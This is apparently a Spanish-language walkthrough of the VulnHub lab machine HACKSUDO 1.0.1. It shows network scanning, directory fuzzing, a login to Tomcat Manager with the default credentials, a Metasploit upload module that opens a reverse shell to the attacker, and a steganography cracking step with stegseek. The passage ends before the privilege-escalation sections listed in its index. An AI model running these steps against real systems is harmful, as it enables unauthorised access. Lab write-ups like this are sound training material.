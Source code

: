 <h1 align="center">
<br>
  <img src="https://anaparrillablog.files.wordpress.com/2016/04/cayo-julio-cc3a9sar-imperio-romano.png?w=656" alt="Front-End Checklist" width="200">
  <br>
  HACKSUDO: 1.0.1
  <br>
</h1>

<h4 align="center">Maquina creada por <img src="https://img.icons8.com/fluent/344/email-open.png" alt="Front-End Checklist" width="20">vishal@hacksudo.comr</h4>
<h4 align="center">Aquí puedes descargarte la <a href="https://www.vulnhub.com/entry/hacksudo-101,650/">página web</a> y ver una descripción de ella</h4>

---

# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Fuzz / Whatweb](#)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Tomcat](#)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Reverse Shell](#)
- [Post-explotación](#post-explotación)
  - [Movimiento Lateral I](#)
  - [Movimiento Lateral II](#)
       - [linPEAS](#)
       - [Reverse Shell](#)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [SUDO -L](#)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [SCP](#)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap
Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.221.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.221.9```

### Fuzz / Whatweb
Para fuzzear la web usaremos este comando con una wordlist que tengamos:

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.9/FUZZ```

Para ver solo archivos con extensión .txt,.php,.html

```
ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.221.9/FUZZ -e .txt,.html,.php -ic
```

Con este comando podemos recolectar información de un servidor web:
```whatweb http://192.168.221.9```

## Búsqueda de vulnerabilidades

### Tomcat

El login del tomcat lo hemos encontrado en esta url: ```http://192.168.221.9:8080/manager```

En esta [página web ](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) encontramos las credenciales por defecto.

Conseguimos conectarnos con las credenciales por defecto: 
```
User: tomcat
Password: tomcat
```
## Explotación de vulnerabilidades

### Reverse Shell

Para obtener un reverse shell buscaremos en el metasploit la version del tomcat que podemos verlo en la página web del tomcat.

Dentro del metasploit escribiremos esto:
```
use multi/http/tomcat_mgr_upload
set lhost 192.168.221.4
set rport 8080
set HttpPassword tomcat
set HttpUsername tomcat
set rhosts 192.168.221.9
exploit
```
Con esto obtendremos control del usuario **www-data**

## Post-explotación

## Movimiento Lateral I

Después de algo de enumeración encontramos en la carpeta **/var** una que se llama **backups/hacksudo**

Dentro tenemos unos archivos:
```log.txt```, ```hacksudo.zip``` y ```vishal.jpg```

En el archivo **log.txt** aparece esto:
```
ilovestegno
```

> Lo tomaremos como una pista para saber que hay un proceso de **esteganografía**

En el archivo **hacksudo.zip** no tenemos nada importante

Lo que haremos con este archivo **vishal.jpg**, és extraer los datos ocultos con la herramienta [Stegseek](https://github.com/RickdeJager/stegseek)

Usaremos este comando con docker:

```sudo docker run --rm -it -v "$(pwd):/steg" rickdejager/stegseek vishal.jpg rockyou.txt```

> ⚠️ IMPORTANTE: Tener tanto el archivo vishal.jpg como el wordlist que usaremos en la misma carpeta

<img src="https://i.gyazo.com/e509cd614352dd3dacfa16f7349f2ef4.png">
